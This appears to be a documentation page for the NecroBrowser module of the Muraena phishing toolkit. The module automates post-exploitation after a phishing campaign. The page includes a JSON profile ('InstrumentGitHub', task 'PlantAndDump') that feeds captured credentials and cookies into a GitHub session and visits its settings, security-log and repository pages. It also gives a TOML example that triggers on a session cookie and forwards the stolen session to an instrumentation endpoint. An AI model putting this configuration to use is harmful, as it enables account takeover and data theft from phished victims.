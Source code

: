 ```yaml
---
title: NecroBrowser
layout: default
permalink: /modules/necrobrowser
nav_order: 2
parent: Supported Modules
---
```


# NecroBrowser

NecroBrowser is a module that allows Muraena to interact with the [NecroBrowser](https://necrobrowser.phishing.click/)
to automate the post-exploitation phase of a phishing campaign.

## Configuration Options

### Enable
Enables or disables the necrobrowser module. 

### Sensitive Locations
`urls` allows to specify the URLs that will be considered sensitive.
The URLs are specified for both requests and responses, as follows:

- **`AuthSession`**: Specifies the URLs that will be considered sensitive for requests.
- **`AuthSessionResponse`**: Specifies the URLs that will be considered sensitive for responses.


### Endpoint
`endpoint` specifies the URL of the NecroBrowser API endpoint.


#### Profile
`profile` specifies the profile to be used for the NecroBrowser API endpoint.
The profile is a file containing the NecroBrowser JSON configuration.

For example, the following configuration specifies the profile `default`:

```json
{
    "name": "InstrumentGitHub",
    "task": {
        "type": "github",
        "name": [ "PlantAndDump" ],
        "params": {
            "fixSession": "https://github.com/settings/profile",
            "urls": [
                "https://github.com/settings/profile",
                "https://github.com/settings/security-log",
                "https://github.com/settings/emails",
                "https://github.com/settings/repositories"
            ],

            "credentials": %%%CREDENTIALS%%%
        }
    },
    "cookies": %%%COOKIES%%%
}
```

The following placeholders are supported:

- **`%%%CREDENTIALS%%%`**: The credentials to be used
- **`%%%COOKIES%%%`**: The cookies to be used
- **`%%%TRACKER%%%`**: The tracker identifier used to track the user

### Trigger
The `trigger` section specifies the events that will trigger the NecroBrowser module.

- **`Type`**: Specifies the where to monitor: either `path` or `cookie`.
If `path` is specified, the trigger will be activated on `authSessionResponse` URLs.
While if `cookie` is specified, the trigger will be activated if the `values` are found in the cookies.
- **`Values`**: Specifies the cookie names to monitor.
- **`Delay`**: Specifies the delay in seconds before the trigger is activated.


## Examples

Below is an example configuration demonstrating the setup for user tracing and sensitive data capture:

```toml
[necrobrowser]
    enable = true
    
    [necrobrowser.urls] 
       authSession = ["/settings/profile"]
       authSessionResponse = ["/privacypolicy"]


    # Endpoint should be the internal one used via WG
    endpoint = "http://10.0.0.2:3000/instrument"
    profile = "./config/instrument.necro"
    
    [necrobrowser.trigger]
        type = "cookie"
        values = ["ESAUTHENTICATED"] 
        delay = 5
```
